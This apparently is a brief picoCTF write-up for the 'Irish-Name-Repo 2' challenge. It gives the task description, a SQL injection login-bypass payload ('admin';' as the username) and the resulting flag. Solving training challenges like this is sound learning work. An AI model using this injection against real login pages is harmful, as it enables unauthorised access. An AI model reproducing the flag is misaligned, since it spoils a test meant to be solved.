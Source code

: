 <h1>Irish-Name-Repo 2</h1>
<h3>Description</h3>
<p>There is a website running at https://jupiter.challenges.picoctf.org/problem/53751/ (link). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:53751</p>
<h3>Solution</h3>
<label>Payload</label>
<pre>
Username : admin';
Password : bla
</pre>
<h3>Flag</h3>
<pre>
picoCTF{m0R3_SQL_plz_c34df170}
</pre>
